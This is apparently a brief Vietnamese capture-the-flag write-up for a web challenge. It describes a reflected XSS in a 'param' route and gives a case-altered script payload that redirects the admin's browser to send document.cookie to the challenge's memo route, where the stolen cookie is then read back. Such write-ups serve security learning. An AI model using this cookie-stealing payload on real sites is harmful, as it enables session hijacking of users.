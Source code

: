 ban đầu đọc hơi lú nhưng mà ta có thể thấy được có 2 route chính là memo?memo=any
thì sẽ hiển thị ra nội dung any trong đó
còn route param?param=any thì bị dính lỗi XSS cơ bản
bây giờ ý tưởng là sẽ gửi cookie của admin vào trong log của route memo
payload : <ScriPt>location.href="http://hostname:port/memo?memo="+document.cookie</ScriPt>
Và vào lại route kia để nhận cookie được render ra thôi
Flag: có làm thì hehe :v
